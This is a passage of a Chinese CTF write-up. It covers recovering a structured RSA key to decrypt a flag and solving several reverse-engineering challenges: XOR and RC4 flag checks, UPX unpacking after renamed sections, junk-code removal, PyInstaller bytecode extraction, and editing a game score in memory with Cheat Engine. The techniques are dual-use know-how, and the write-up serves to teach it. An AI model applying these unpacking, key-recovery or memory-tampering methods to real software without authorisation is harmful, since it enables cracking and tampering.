→ n = A·C·2^896 + (A·D+B·C)·2^448 + B·D，三段直接读出来
→ 分解 A·C 得 (A,C)，列二次方程解 B、D
→ 还原 p、q，算私钥解密
```

#### 二、分析

##### 2.1 题目数据

附件里是一段 JSON

```json
{
  "seed_window_start": 1767254400,
  "seed_window_end": 1767254999,
  "prng": {
    "type": "64-bit LCG",
    "state": "state = (state * a + c) mod 2^64",
    "a": 6364136223846793005,
    "c": 1442695040888963407,
    "randrange(n)": "output % n"
  },
  "n": "...",
  "e": 65537,
  "cipher_hex": "..."
}
```

种子是 600 个秒级时间戳，LCG 参数是经典的 glibc 常数 GUN lib c

##### 2.2 枚举种子

枚举 600 个种子，用 LCG 跑出 p，q，比对 p×q 是否等于 n
但题目只给了 LCG 递推公式，没说怎么从 64 位输出拼出 512 位素数

多种拼法失效

| 拼法 | 结果 |
|---|---|
| 8 个 64 位从高到低拼成 512 位 | 全失败 |
| 8 个从低到高拼 | 全失败 |
| 大端 / 小端字节序 | 全失败 |
| 种子直接当首次输出 vs 先迭代一次 | 全失败 |


转换思路看 n 本身

##### 2.3 观察 n

n 是一个 1024 位的大整数，写成十六进制后很长，按每 16 个字符一组（一组 = 64 个二进制位）排开，一共 16 组
从左到右编号第 0 组（最高位）到第 15 组（最低位）

```
group.0  b69e000000000000    有数字
group.1  0000000000000000    全零
group.2  0000000000000000
group.3  0000000000000000
group.4  0000000000000000
group.5  0000000000000000
group.6  0000000000000001    有数字（很小，是进位）
group.7  8d1ad02e4a9d3cd8    有数字
group.8  7300000000000000    有数字
group.9  0000000000000000
group.10 0000000000000000
group.11 0000000000000000
group.12 0000000000000000
group.13 0000000000000000
group.14 d6be463fcfcfe0dc    有数字
group.15 83797e63d1fe6fdd    有数字
```

正常 RSA 的 n 是两个大素数乘出来的，满 1024 位随机数，每组都该有乱七八糟的数字，不可能出现一整组全是零
这里中间一大片都是零，说明 p、q 不是正常素数

##### 2.3.1 反推 p、q 的结构

p 和 q 各是 512 位，切成 8 组，从左到右记为 p[0]~p[7]、q[0]~q[7]，第 0 组最高，第 7 组最低

**两个数相乘时，组和组怎么对应？**

十进制理解, 12 × 34 = 408，把 12 拆成十位 1 和个位 2，34 拆成十位 3 和个位 4

```
    1 2
  × 3 4
  ------
    4 8  ← 个位：2×4 = 8
  3 6    ← 十位：1×4 + 2×3 = 4+6 = 10
  ------
  4 0 8
```

规律：结果的第 k 位，是由两个因子各自的位两两相乘、位置编号相加等于 k 的那些项累加而成

对应到我们的问题：p 的第 i 组 × q 的第 j 组，会落在 n 的第 i+j 组附近。

**对照 n 的非零组反推：**

n 的非零组在第 0、6、7、8、14、15 组
现在假设 p 只有最左边的 p[0] 和最右边的 p[7] 有值，中间 p[1]~p[6] 全是零
q 同理只有 q[0] 和 q[7] 有值
那 p×q 只有 4 种组合

| 组合 | 位置编号相加 i+j | 落在 n 的哪几组 |
|---|---|---|
| p[0] × q[0] | 0+0=0 | 第0组、第1组 |
| p[0] × q[7] | 0+7=7 | 第7组、第8组 |
| p[7] × q[0] | 7+0=7 | 第7组、第8组 |
| p[7] × q[7] | 7+7=14 | 第14组、第15组 |

产生非零结果的位置正好是：第0组、第7~8组、第14~15组
和 n 的非零组完全对上
而中间第1~5组、第9~13组全是零
如果 p[1]~p[6] 或 q[1]~q[6] 有任何一个不是零，就会多出其他组合，那些位置就不会是零

所以 p、q 的结构是：只有首尾两组有值，中间全是零

```
p = p[0] × 2^448 + p[7]
q = q[0] × 2^448 + q[7]
```

2^(7×64) = 2^448
 p[0] 在最高位，它后面跟着 7 个 64 位组的零，所以要乘以 2^448。然后给这四个值起个简短的名字 A B C D

```
p = A × 2^448 + B     （A 最高 64 位，B 最低 64 位，中间 384 位全零）
q = C × 2^448 + D
```

##### 2.4 展开 n = p × q

```
n = A×C × 2^896  +  (A×D + B×C) × 2^448  +  B×D
```

对应 n 的三段

| 位置 | 对应项 | 值 |
|---|---|---|
| 最高 128 位 | A×C | `b69e000000000000_0000000000000000` |
| 中间 | A×D + B×C | `18d1ad02e4a9d3cd_8730000000000000` |
| 最低 128 位 | B×D | `d6be463fcfcfe0dc_83797e63d1fe6fdd` |

三个数都能直接从 n 里读出来

##### 2.5 分解 A×C，枚举因数对求 (A, C)

最高 128 位就是 A×C
现在要找出所有可能的 (A, C) 组合

```
12： 1×12, 2×6, 3×4, 4×3, 6×2, 12×1
```

每组 `(a, b)` 就是一个因数对

**1.把 A×C 拆成质因数**

A×C = `0xb69e0000 00000000 _ 00000000 00000000`，拆到不能再拆

```
A×C = 2^113 × 5^3 × 11 × 17
```

这个数全是由质因数乘出来的

**2.把这些质因数分给 A 和 C**

113 个 2、3 个 5、1 个 11、1 个 17。要把这些质因数分成两堆，一堆归 A，一堆归 C

- 2 给 A 0~113 个都行，共 114 种选择
- 5 给 A 0~3 个都行，共 4 种选择
- 11 给或不给A，2 种选择
- 17 给或不给A，2 种选择

一共 114 × 4 × 2 × 2 = 1824 种分法
每种分法对应一个 (A, C)

A 和 C 都是 p、q 的最高 64 位，所以必须在 64 位数范围 `2^63, 2^64)` 内
1824 种分法里大部分分出来的数太小或太大，筛掉后只剩 6 组

```
A=0xe9c0000000000000, C=0xc800000000000000
A=0xd480000000000000, C=0xdc00000000000000
A=0xbb00000000000000, C=0xfa00000000000000
A=0xfa00000000000000, C=0xbb00000000000000
A=0xdc00000000000000, C=0xd480000000000000
A=0xc800000000000000, C=0xe9c0000000000000
```

##### 2.6 二次方程求 B、D

已知三个等式：

```
A×C        = 最高那坨
A×D + B×C  = 中间那坨
B×D        = 最低那坨
```

消 D 得到关于 B 的一元二次方程，对 6 组 (A, C) 分别求解，哪组能算出整数的 B 就是答案
得到

```
A = 0xbb00000000000000
B = 0xda0f0884ef2d6d23
C = 0xfa00000000000000
D = 0xfc1b8f8da712feff
```

##### 2.7 还原 p、q 并解密

```python
from Crypto.Util.number import long_to_bytes

p = A * (2**448) + B
q = C * (2**448) + D

phi = (p - 1) * (q - 1)
d = pow(e, -1, phi)
m = pow(c, d, n)
print(long_to_bytes(m))
```

验证 p×q == n 且都是素数，逆推RSA,解密后明文末尾即为 flag

#### 三、最终 Flag

```
HJSEC{weak_seed_rsa_private_key_leak_2026}
```
附件：
[豆姐写的py脚本，点击跳转

## Reverse

### 开开心心来签个到

#### 一、思路

```
  运行程序看反应
  DIE 查壳 64 位无壳 PE
  IDA64 找字符串，定位校验函数
  伪代码里发现 xor eax, 26h 单字节异或加密
  在 .rdata 段找到 31 字节密文
  密文每个字节 ^ 0x26 反推出 flag
```

#### 二、分析

##### 2.1 运行程序

选 `2` Guide 给出提示

```
2. The program checks your input locally.
3. If you get stuck, inspect the flag-checking routine
```

校验逻辑就在本地程序里

##### 2.2 DIE 查壳和 IDA 分析

用 DIE 打开

文件类型：64 位 Windows 可执行程序
subsystem：Console  控制台程序
无壳

用 IDA64 打开字符串窗口，发现关键字符串

| 字符串 | 作用 |
|---|---|
| `Welcome to GUET Reverse 01` | 标题横幅 |
| `Enter flag: ` | 输入提示 |
| `[+] Correct! Welcome to GUET.` | 正确提示 |
| `[-] Incorrect flag. Keep reversing.` | 错误提示 |

双击 `Enter flag: ` 跳转到交叉引用，顺着代码往上找，就能定位到校验函数

在 `Enter flag: ` 字符串下方的代码流程大致是

打印 `Enter flag: `
读取用户输入
调用一个函数对输入逐字符处理并比较
根据结果打印 Correct 或 Incorrect

##### 2.3 识别异或加密

进入校验函数的伪代码



进sub_140011596



校验逻辑
```
输入[i] XOR 0x26 == 密文[i]
```
找密文，在unk_14001FBB0，抄写密文16进制字符串

##### 2.4 提取密文，写脚本解密

根据校验逻辑 `输入[i] ^ 0x26 == 密文[i]`

```
flag[i] = 密文[i] ^ 0x26
```

写 Python 脚本解密：

```python
target = [
    0x61, 0x73, 0x63, 0x72, 0x5D, 0x71, 0x15, 0x4A,
    0x45, 0x4B, 0x43, 0x79, 0x52, 0x16, 0x79, 0x61,
    0x73, 0x63, 0x72, 0x79, 0x4F, 0x52, 0x79, 0x17,
    0x55, 0x79, 0x41, 0x16, 0x16, 0x42, 0x5B
]

flag = ''.join(chr(b ^ 0x26) for b in target)
print(flag)
```

运行脚本输出

```
GUET{W3lcme_t0_GUET_it_1s_g00d}
```

回到程序里输入这个 flag 验证

```
Enter flag: [+] Correct! Welcome to GUET.
```

#### 三、最终 Flag

```
GUET{W3lcme_t0_GUET_it_1s_g00d}
```

解密脚本


### EZMAZE

#### 一、思路

```
  DIE 查壳：64 位 Console 程序，无壳
  IDA64 打开，F5 看 main 伪代码
  输入长度必须为 19，起点 (1,1)，终点 (8,9)
  wasd 控制移动，每走一步用位运算判断是否撞墙
  地图数据存在 byte_140017350 前 16 字节，XOR 0xA7 按位取出墙
  还原 11×11 迷宫，走出路径 ddssaassssssddddddd
  用路径字符串按 ROR7 迭代算出单字节密钥 v12
  v12 ^ i ^ 密文[i+16] 逐字节解出 flag
```

#### 二、分析

##### 2.1 DIE 查壳

用 DIE 打开 `maze.exe`

文件类型：PE64，64 位 Windows 可执行程序
Console 控制台程序
无壳，不需要脱壳


##### 2.2 IDA 反编译

用 IDA64 打开，找到 main 函数，按 F5 看 C 伪代码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char Str[128];
  sub_1400049B8("Input your route:", argv, envp);
  if ( (unsigned int)sub_140001190("%127s", Str) == 1 )
  {
    v5 = 1;   // x 坐标
    v6 = 1;   // y 坐标，起点 (1,1)
    if ( strlen(Str) == 19 )
    {
      // wasd 移动逻辑，逐字符处理
      while ( 1 )
      {
        switch ( v7 )
        {
          case 'a': --v5; --v9; break;   // 左
          case 'd': ++v5; ++v9; break;   // 右
          case 's': ++v6; v4++; break;   // 下
          case 'w': --v6; v4--; break;   // 上
          default: goto LABEL_25;        // 非法字符直接 wrong
        }
        if ( v9 > 0xA ) break;           // 越界判断
        if ( v4 > 0xA ) break;

        // 取地图位：byte_140017350[(x+11*y)>>3] ^ 0xA7 >> ((x+11*y)&7) & 1
        // 取出第 (idx//8) 个字节和 0xA7 异或解密 → 右移 (idx%8) 位 → 看最低位是 0 还是 1
        v3 = byte_140017350[(v5 + 11*v6) >> 3];
        LOBYTE(v3) = (v3 ^ 0xA7) >> ((v5 + 11*v6) & 7);
        if ( (v3 & 1) != 0 ) break;     // LOBYTE(v3)=1 表示撞墙
        // 循环判断,直到字符串末尾
        if ( !*++v8 )
        {
          if ( v5 != 8 || v6 != 9 ) break;  // 终点必须是 (8,9)
          // 校验通过，计算密钥并输出 flag
          ...
        }
      }
    }
  }
LABEL_25:
  sub_1400049B8("wrong", ...);
  return 0;
}
```


| 项目 | 内容 |
|---|---|
| 输入长度 | 必须正好 19 个字符 |
| 起点 | (1, 1) |
| 终点 | (8, 9) |
| 操作 | a / d / s / w（左/右/下/上） |
| 地图判断 | `(map[idx>>3] ^ 0xA7) >> (idx&7) & 1 == 1` 为墙 |

##### 2.3 提取数据还原地图

 `byte_140017350`，前 16 字节是地图数据，后面的是 flag 密文

```python
map_data = [0x58, 0x28, 0x47, 0xD2, 0x84, 0x7D, 0x70, 0x07,
            0xD1, 0x12, 0x2F, 0x52, 0xAA, 0x47, 0x58, 0xA6]
# 前 16 字节：迷宫结构
# 从第 16 字节往后：flag 密文
```

地图判断逻辑：坐标 `(x, y)` 对应 bit 索引 `idx = x + 11*y`
该位为 1 就是墙，为 0 就是通路

```python
def is_wall(x, y):
    idx = x + 11 * y
    byte = map_data[idx >> 3]
    bit = (byte ^ 0xA7) >> (idx & 7) & 1
    return bit == 1
```

写脚本把 11×11 的迷宫打印出来

```
迷宫地图 (S=起点(1,1), E=终点(8,9), #=墙, .=通路):
    0 1 2 3 4 5 6 7 8 9 10
 0  # # # # # # # # # # #
 1  # S . . # . . . . . #
 2  # # # . # . # # # . #
 3  # . . . # . . . # . #
 4  # . # # # # # . # . #
 5  # . . . . . # . # . #
 6  # . # # # . # . # . #
 7  # . # . . . # . . . #
 8  # . # . # # # # # . #
 9  # . . . . . . . E . #
10  # # # # # # # # # # #
```

从 S(1,1) 出发走到 E(8,9)，一共 19 步，路径为

```
ddssaassssssddddddd
```

##### 2.4 路径计算单字节密钥 v12

走到终点后，程序用输入的路径字符串做一轮循环，算出一个单字节密钥 v12

```c
v11 = Str[0];        // 路径第一个字符
v12 = 0x42;          // 初始值 66
do {
    v14 = *++v13;                      // 取下一个字符
    v12 = v11 ^ __ROR1__(v12, 7);      // v12 = 上一个字符 XOR (v12 循环右移 7 位)
    v11 = v14;
} while ( v14 );                        // 直到字符串结束符
```

`__ROR1__(v12, 7)` 表示 8 位循环右移 7 位，等价于循环左移 1 位

```python
def ror7(x):
    x = x & 0xff
    return ((x >> 7) & 1) | ((x << 1) & 0xff)
```

用路径 `ddssaassssssddddddd` 循环计算，得到

```
v12 = 0x75
```

##### 2.5 解出 flag

密文是 `map_data[16]` 往后的 21 字节，输出逻辑

```c
for ( i = 0; i < 0x15; ++i )
    putchar( v12 ^ (unsigned __int8)i ^ byte_140017350[i + 16] );
```

即每个字节：`flag[i] = v12 ^ i ^ 密文[i]`

```python
cipher = [0x3D, 0x3E, 0x24, 0x33, 0x32, 0x0B, 0x1E, 0x13,
          0x07, 0x19, 0x20, 0x0E, 0x18, 0x0A, 0x08, 0x1F,
          0x17, 0x3B, 0x08, 0x0D, 0x1C]

v12 = 0x75
flag = bytes([v12 ^ i ^ cipher[i] for i in range(21)])
print(flag.decode())
```

也可以在 cmd 里运行程序，输入路径验证


#### 三、最终 Flag

```
HJSEC{maze_parser_ok}
```

解密脚本
地图绘制脚本

### signup

#### 一、思路

```
DIE 查壳发现节区名是 VMP0/VMP1  伪装成 VMProtect
但二进制里能搜到 UPX! 标记，本质还是 UPX 压缩
手动把节区名改回 UPX0/UPX1，upx -d 脱壳
反汇编  key 是 "GUET2026"，输入长度必须 27 字节
校验逻辑是 RC4 加密后和 .rdata 段的密文做 memcmp
提取密文，用 RC4 解密直接得到 flag
```

#### 二、分析过程

##### 2.1 查壳

用 DIE 查壳能发现是 UPX加壳，直接upx -d解压会报错
DIE看区块，发现节区名是 VMP0/VMP1 和 UPX 对不上

本质还是 UPX 压缩，只是节区名被改成了 VMP 
直接跑 `upx -d` 会报错
因为 UPX 会校验节区名

##### 2.2 修复节区名脱壳

在010把第一个节区名从 `VMP0` 改成 `UPX0`，第二个从 `VMP1` 改成 `UPX1`
保存再用`upx -d`得到脱壳后的signup.exe

```bash
upx -d SignUp.exe
```

##### 2.3 反汇编

用 IDA64 打开，找到 `input what you think:` 字符串的交叉引用，定位到start函数

关键逻辑：
```c
//把 "GUET2026" 复制到栈上作为 key
memcpy(buf, "GUET2026", 9);

//读取用户输入
printf("this is just a easy upx, right?\n");
printf("input what you think:");
fgets(input, 0x80, stdin);

//去掉换行符，长度必须正好 27 字节
len = strcspn(input, "\n");
if (len != 27) return 1;

//RC4(key="GUET2026", keylen=8, input, output)
rc4_crypt("GUET2026", 8, input, output);

//和预设密文比较，相等则输出 yes
if (memcmp(output, ciphertext, 27) == 0) 
{
    printf("yes\n");
}
```

##### 2.4  RC4 算法

进入变换函数 `sub_140011145`跳转后真正实现在 `0x140011AD0`
反汇编可以发现RC4的加密算法

```c
  if ( a1 && a3 && a4 && a2 )  //a1 = key = GUET2026
                               //a2 = keylen = 8
  {
    for ( j = 0; j < 0x100; ++j )
      v9[j + 16] = j;         //v9 是 S盒
    for ( j = 0; j < 0x100; ++j )
    {
      v16 = (unsigned __int8)v9[j + 16] + v11;      //v16 = S[i] + j
      v11 = (unsigned __int8)(*(_BYTE *)(a1 + j % a2) + v16);
      v13 = (unsigned __int8)v9[j + 16];    //v13 暂存 S[i]
      v9[j + 16] = v9[v11 + 16];
      v9[v11 + 16] = v13;
    }                           //这里完成RSA 初始化S表
    
    j = 0;                      // RC4 里的 i
    v11 = 0;                    // RC4 里的 j
    for ( k = 0; k < a5; ++k )      //a5 数据长度27  k 计数器
    {
      j = (unsigned __int8)(j + 1);                 // i = (i + 1) % 256
      v11 = (unsigned __int8)(v9[j + 16] + v11);    // j = (j + S[i]) % 256

      v14 = (unsigned __int8)v9[j + 16];        //v14 暂存S[i]
      v9[j + 16] = v9[v11 + 16];                
      v9[v11 + 16] = v14;                     //swap(S[i], S[j])

      v15 = (unsigned __int8)v9[(unsigned __int8)(v9[v11 + 16] + v9[j + 16]) + 16];
      //v15 = 密钥流字节k  k = S[(S[i] + S[j]) % 256]
      *(_BYTE *)(a4 + k) = v15 ^ *(_BYTE *)(a3 + k);
    }                          //output[k] = input[k] ^ v15;
                               //a3 = input | a4 = output = input加密后的结果
  }
```

##### 2.5 提取密文并解密


密文在 `.rdata` 段 `0x14001ABB0`，共 27 字节：

```
B7 8E 74 49 DD 89 F0 DE 91 3C 3F 11 B9 E5 5A CF
D8 58 EE B2 F9 89 21 1D 2C 1A 7D
```

key 是 `"GUET2026"`（8 字节）。RC4 加解密对称，直接用同样的 key 解密密文：

```python
key = b"GUET2026"
cipher = bytes([0xB7, 0x8E, 0x74, 0x49, 0xDD, 0x89, 0xF0, 0xDE,
                0x91, 0x3C, 0x3F, 0x11, 0xB9, 0xE5, 0x5A, 0xCF,
                0xD8, 0x58, 0xEE, 0xB2, 0xF9, 0x89, 0x21, 0x1D,
                0x2C, 0x1A, 0x7D])

# KSA
S = list(range(256))
j = 0
for i in range(256):
    j = (j + S[i] + key[i % len(key)]) % 256
    S[i], S[j] = S[j], S[i]

# PRGA
i = j = 0
plaintext = []
for byte in cipher:
    i = (i + 1) % 256
    j = (j + S[i]) % 256
    S[i], S[j] = S[j], S[i]
    k = S[(S[i] + S[j]) % 256]
    plaintext.append(byte ^ k)

print(bytes(plaintext))
```

运行输出：

```
b'GUET{1s_0nly_@_e@sy_P@cked}'
```

回到程序里输入这个字符串验证，程序输出 `yes`，校验通过

#### 三、最终 Flag

```
GUET{1s_0nly_@_e@sy_P@cked}
```

### Flowers

#### 一、思路

```
DIE 查壳：32 位 PE，无壳
找 "flag> " 字符串交叉引用，定位主函数
主函数调用 0x401000 做校验
有花指令干扰
跳过花指令读核心循环：29 次异或校验
三个数组都在 .rdata 数据段，不受花指令影响
提取三个数组，推导公式写脚本解出 flag
```

#### 二、分析过程

##### 2.1 运行看反应

输出

```
A small flower garden is waiting for the correct key.
flag> XXX
The flowers stay closed.
```

输入任意错误内容，输出 `The flowers stay closed.`

##### 2.2 DIE 查壳,定位主函数

32 位 Windows PE 控制台程序，无壳，体积只有 9KB

搜字符串 `flag> `，找到交叉引用在 `0x401144`，往上就是主函数
打印欢迎信息和 `flag> ` 提示
fgets 读取输入
strcspn 去掉换行符
调用 `sub_401000` 校验输入
校验成功打印 `The garden opens.`，失败打印 `The flowers stay closed.`

##### 2.3 花指令

进入校验函数 `sub_401000`，有大量花指令

```asm
call    $+5
add     [esp+1Ch+var_1C], 8
retn
```

call 压入返回地址  add 把栈上的返回地址加  ret 跳转到修改后的地址
对程序运行无影响，对 IDA 静态分析破坏栈平衡
导致函数截断,无法自动反编译

##### 2.4 手动反汇编

```c
bool sub_401000(char *str)
{
    int len = strlen(str);
    if (len != 0x1D)          // 长度必须是 29
        return false;

    char acc = 0;             // var_1
    for (int i = 0; i < 0x1D; i++)
    {
        int idx = (i * 7 + 3) % 0x19;              // 取模 25
        char c = byte_4021A0[i];                   // arr2偏移
        char v = byte_402180[idx];                 // arr1混淆
        v ^= str[c];                               // 与输入串异或
        v ^= byte_4021C0[i];                       // arr3异或
        acc |= v;                                  
        // 累积 OR,如果结果acc不是0,则input的某一步错误
    }
    return acc == 0;          // 全部为 0 才算通过
}
```
这里`ebx` 当循环计数器,0到29

```c
arr1[(7 * ebx + 3) % 25] ^ input[arr2[ebx] ] ^ arr3[ebx]  =  0
input[arr2[ebx] ] = arr1[(7 * ebx+3) % 25] ^ arr3[ebx]
```

花指令只在 `.text` 代码段里，三个关键数组在 `.rdata` 数据段

##### 2.5 提取三个数组 脚本解flag

```python
arr1 = [44, 177, 250, 64, 46, 209, 223, 59, 55, 31, 67, 86, 72, 173, 218, 231, 123, 74, 51, 62, 48, 18, 152, 212, 156]
arr2 = [12, 3, 28, 0, 18, 8, 5, 15, 1, 23, 10, 6, 20, 4, 16, 2, 27, 9, 13, 21, 7, 17, 14, 24, 11, 19, 22, 26, 25]
arr3 = [31, 23, 55, 219, 156, 224, 99, 148, 74, 74, 186, 225, 44, 69, 218, 114, 147, 216, 100, 101, 108, 115, 78, 180, 107, 112, 28, 35, 195]
#arr1是混淆,arr2是flag的位置打乱表,arr3是flag密文
flag = [0] * 29
for ebx in range(29):  #0到28
    edx = (7 * ebx + 3) % 25
    pos = arr2[ebx]
    flag[pos] = arr1[edx] ^ arr3[ebx]

print(bytes(flag).decode())
```

输出：

```
GUET{S0_M@ny_Junk_C0d3_1n_it}
```

回到程序里输 flag，程序输出 `The garden opens.`,验证通过

#### 三、最终 Flag

```
GUET{S0_M@ny_Junk_C0d3_1n_it}
```

### py交易

#### 一、思路

```
DIE 带 python314.dll  overlay容量大
典型的 PyInstaller 打包
用 pyinstxtractor.py 解包，拿到主脚本字节码 kongbeiqie.pyc
marshal + dis 反汇编，得到 密文encode 置换表table  异或密钥55
校验逻辑：output[i] = chr(ord(flag[table[i]]) ^ 55)
置换 XOR 都是对合运算，按 table 把字符归位，再整体 ^55 还原
```

#### 二、分析

##### 2.1 DIE 查壳

用 DIE 打开
PE32，Windows 控制台程序
Overlay 里面能看到 `python314.dll`  `PYZ.pyz` 
是 PyInstaller 打包出来的 Python 程序

PyInstaller 把 Python 解释器、标准库归档和我们自己脚本的 `.pyc` 字节码
全部附加在 PE 文件最后一节之后（overlay）
脚本本身没有强加密，直接解包就能拿回 `.pyc`

##### 2.2 pyinstxtractor 解包

把经典的 `pyinstxtractor.py` 和 `danke.exe` 放同目录
cmd执行
```bash
python pyinstxtractor.py danke.exe
```


输出几条信息

| 项目 | 内容 |
|---|---|
| Python 版本 | 3.14 |
| 入口脚本 | `kongbeiqie.pyc` |
| 解包目录 | `danke.exe_extracted/` |

最关键的 `kongbeiqie.pyc`，它就是题目主脚本编译后的字节码

##### 2.3 反汇编 kongbeiqie.pyc

`.pyc` 文件开头有 16 字节的头（magic number + flags + 时间戳）
真正的 code object 在后面，用 marshal 序列化存的
Python 自带 `marshal` 和 `dis` 两个标准库就能反汇编

```bash
python -c "import marshal,dis; \
f=open('kongbeiqie.pyc','rb'); \
f.read(16); \
dis.dis(marshal.load(f))"
```

等价的源码

```python
import marshal, dis

f = open('kongbeiqie.pyc', 'rb')
f.read(16)                 # 跳过 16 字节 pyc 头
code = marshal.load(f)      # 反序列化出 code object
dis.dis(code)              # 反汇编成可读指令
```

得到字节码

```text
LOAD_CONST   1 ('YVYh]\x07@h\x0ehRwJVD\x07]s\x03D__ELzhY\x06_TP')
STORE_NAME   1 (encode)        # 目标密文，长度 31

LOAD_CONST   9 ((19,14,10,24,27,6,5,12,11,15,9,26,30,22,16,28,
                 1,13,18,2,17,21,29,4,25,7,8,23,0,3,20))
STORE_NAME   2 (table)          # 31 个元素的置换表

LOAD_SMALL_INT 55
STORE_NAME   3 (XOR_KEY)        # 异或密钥 = 55
```

主流程

```text
flag = input()
if len(flag) != 31:  print('Length Wrong!!')
elif enc(flag) == encode:  print('Wow,you get the right flag!!')
else:                      print('Sorry,Your input is Wrong')
```

`enc` 函数

```text
LOAD_FAST_BORROW   0 (input)
LOAD_GLOBAL        8 (table)
LOAD_FAST_BORROW   2 (i)
BINARY_OP          26 ([])        # input[table[i]]
CALL               1              # ord(...)
LOAD_GLOBAL        10 (XOR_KEY)
BINARY_OP          12 (^)         # ^ 55
CALL               1              # chr(...)
BINARY_OP           0 (+)         # tmp += ...
```

还原加密逻辑

```
output[i] = chr(ord(flag[table[i]]) ^ 55)
```

##### 2.4 还原校验脚本

按反汇编把校验逻辑写成正常Python

```python
encode = 'YVYh]\x07@h\x0ehRwJVD\x07]s\x03D__ELzhY\x06_TP'
table = (19, 14, 10, 24, 27, 6, 5, 12, 11, 15, 9, 26, 30, 22,
         16, 28, 1, 13, 18, 2, 17, 21, 29, 4, 25, 7, 8, 23, 0, 3, 20)
XOR_KEY = 55

def enc(input):
    tmp = ''
    for i in range(len(input)):
        tmp += chr(ord(input[table[i]]) ^ XOR_KEY)
    return tmp
```

##### 2.5 逆运算求解

加密： `encode[i] = flag[table[i]] ^ 55`

```
flag[table[i]] = ord(encode[i]) ^ 55
```

输出的第 `i` 位对应的是原 flag 的第 `table[i]` 位
用一个长度 31 的数组，按 `table` 把每个字符放回原位

```python
encode = 'YVYh]\x07@h\x0ehRwJVD\x07]s\x03D__ELzhY\x06_TP'
table = (19, 14, 10, 24, 27, 6, 5, 12, 11, 15, 9, 26, 30, 22, 16, 28,
         1, 13, 18, 2, 17, 21, 29, 4, 25, 7, 8, 23, 0, 3, 20)
XOR_KEY = 55

ans = [''] * 31
for i in range(31):
    ans[table[i]] = chr(ord(encode[i]) ^ XOR_KEY)   # 按置换表归位
flag = ''.join(ans)

print(flag)
```

输出：

```bash
hjsc{w0_nen9_Da_sh4ngha1_M@j0r}
```

还原出的 flag 再走一遍 `enc()`，结果和 `encode` 完全一致

#### 三、最终 Flag

```
hjsc{w0_nen9_Da_sh4ngha1_M@j0r}
True
```

脚本

### BigRound

#### 一、思路

```
Win32 GUI 转盘程序
DIE 查壳：PE64 GUI 程序，链接 user32/gdiplus/gdi32/kernel32，无壳
用 Cheat Engine 附加进程，扫描积分值定位内存地址，改成 100000
再转一次触发 cmp 判断，拿到 flag
```

#### 二、分析

##### 2.1 运行程序

运行 `BigRound.exe`

提示： 你只要得到100000分就能获得flag了，是不是很简单
窗口显示当前积分、已转次数，点"转动转盘"后加一点积分

##### 2.2 DIE 查壳

用 Detect It Easy 打开 `BigRound.exe`

| 项目 | 内容 |
|---|---|
| 文件类型 | PE64，Windows GUI 程序 |
| 链接 DLL | `USER32.dll` / `GDI32.dll` / `gdiplus.dll` / `KERNEL32.dll` |
| 壳 | 无壳 |

##### 2.3 IDA64

Search `Alt+B` 搜中文字节
搜 '通关' 的 UTF-16LE 字节`1A 90 73 51`，查看交叉引用
到sub_140004E20看伪代码



```c
v16 = v14 + *(_DWORD *)lpMem;    // 加奖励
*v15 = v16;
if ( v17 < 100000 )
    // 奖励到账
else
    {
        *((_BYTE *)lpMem + 20) = 1;   // 解锁
        sub_140001E20(lpText);        // 解密 flag
        MessageBoxW(hWnd, v18, ...);  // 弹窗
    }
```

就可以知道判断逻辑
MessageBoxW，在运行时产生一个窗口，放flag
看sub_140001E20的加密逻辑，静态分析很难得flag

##### 2.4 Cheat Engine 改积分内存

用 CE 找值改值,让程序自己弹 MessageBox
先正常运行 `BigRound.exe`，积分初始值1337

Cheat Engine点左上角找到 `BigRound.exe`进程
value填1337，first scan
左侧栏得到一个地址，对应存放积分的值的地址
把值改成100001，再转一次得到flag 

#### 三、最终 Flag

```
GUET{H0w_t0_U5e_D3bugger_0r_1DA}
```


### guessTheNumber

#### 一、思路

```
解压附件得到 guessme.exe，cmd 运行
6 次机会猜 1~100 的数
二分法最多要 7 次，只给 6 次
对错都给出GUET{Th1s_1s_Th3_FAKE_f1@g} 假flag

DIE 查壳：64 位无壳普通 PE，IDA64 打开
Shift+F12 翻字符串，发现一长串 hex 密文和 "H0w_t0_3ncrypt?" 提示
找到一个没有调用的校验函数，里面是 XOR 加密逻辑
flag[i] = enc[i] ^ (反转后的 key)[i % 15]
```

#### 二、分析

##### 2.1 运行得假 flag

解压 `GuessTheNumber.zip` 得到 `guessme.exe`
在 cmd 里运行，避免看不到输出

用完 6 次机会猜错


或者猜对
程序最后都打印同一个假flag `GUET{Th1s_1s_Th3_FAKE_f1@g}`

##### 2.2 DIE 

用 Detect It Easy 打开 `guessme.exe`

